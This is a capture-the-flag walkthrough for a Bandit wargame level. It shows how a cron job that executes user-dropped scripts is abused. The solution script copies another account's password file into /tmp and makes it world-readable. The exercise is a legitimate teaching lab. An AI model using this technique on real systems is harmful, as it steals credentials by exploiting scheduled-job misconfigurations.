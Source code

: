 ## Level 24

### Task

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**Note 1**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**Note 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around...

### Solution

```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

The idea: add a script to `/var/spool/bandit24/foo` to get the password.

The script `/var/spool/bandit24/foo/script.sh`:

```
#!/bin/bash

mkdir /tmp/thedesiredpassword
cp /etc/bandit_pass/bandit24 /tmp/thedesiredpassword/thedesiredpassword
chmod 777 /tmp/thedesiredpassword/thedesiredpassword
```
